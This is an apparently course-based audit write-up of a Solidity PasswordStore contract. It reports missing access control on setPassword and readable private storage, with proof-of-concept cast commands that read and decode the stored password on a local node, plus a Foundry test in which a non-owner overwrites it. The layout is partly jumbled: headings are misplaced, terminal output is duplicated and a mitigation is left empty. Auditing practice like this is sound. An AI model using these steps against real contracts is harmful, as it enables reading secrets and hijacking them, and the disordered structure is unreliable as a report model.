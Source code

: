 ### [S-#] `PasswordStore::setPassword` lack of access control

**Description:** 
```javascript
    // @audit-issue no access control
    function setPassword(string memory newPassword) external {
        s_password = newPassword;
        emit SetNetPassword();
    }
```
**Impact:** ### [S-#] Private Data stored in storeage on chain HIGH (ROOT CAUSE + IMPACT)

**Description:** 
Contract `PasswordStore` stores private data onchain in `PasswordStore::s_password` private variable. Storing data that way will be visible for everone despite using `private` keyword. Contract should allow to retreive password only through `PasswordStore::getPassword()`.
**Impact:** 
High

**Proof of Concept:** (Proof of Code)
The below test case shows haow anyone can read the password directly from the blockchain. 

genesisglitch@genesisglitch:~/UPDRAFT/SEC/3-passwordstore-audit$ cast storage 0x5fbdb2315678afecb367f032d93f642f64180aa3 1 --rpc-url http://127.0.0.1:8545
0x6d7950617373776f726400000000000000000000000000000000000000000014
genesisglitch@genesisglitch:~/UPDRAFT/SEC/3-passwordstore-audit$ cast parse-bytes32-string 0x6d7950617373776f726400000000000000000000000000000000000000000014
myPassword
genesisglitch@genesisglitch:~/UPDRAFT/SEC/3-passwordstore-audit$ 

**Recommended Mitigation:** 
Whole architecure is to reconsider
genesisglitch@genesisglitch:~/UPDRAFT/SEC/3-passwordstore-audit$ cast storage 0x5fbdb2315678afecb367f032d93f642f64180aa3 1 --rpc-url http://127.0.0.1:8545
0x6d7950617373776f726400000000000000000000000000000000000000000014
genesisglitch@genesisglitch:~/UPDRAFT/SEC/3-passwordstore-audit$ cast parse-bytes32-string 0x6d7950617373776f726400000000000000000000000000000000000000000014
myPassword
genesisglitch@genesisglitch:~/UPDRAFT/SEC/3-passwordstore-audit$ 


**Proof of Concept:**
<details>
```javascript
    function test_anyone_can_change_password(address randomAddress) public {
        attacker = randomAddress;
        vm.assume(attacker != owner);
        
        vm.startPrank(owner);
        string memory actualPassword = passwordStore.getPassword();
        console.log("V: ", actualPassword);
        vm.stopPrank();

        vm.startPrank(attacker);
        string memory attackedPassword = "attackedPassword";
        console.log("A: ", attackedPassword);
        passwordStore.setPassword(attackedPassword);
        vm.stopPrank();

        vm.prank(owner);
        assertNotEq(actualPassword, passwordStore.getPassword());
    }
```
</details>

**Recommended Mitigation:** 
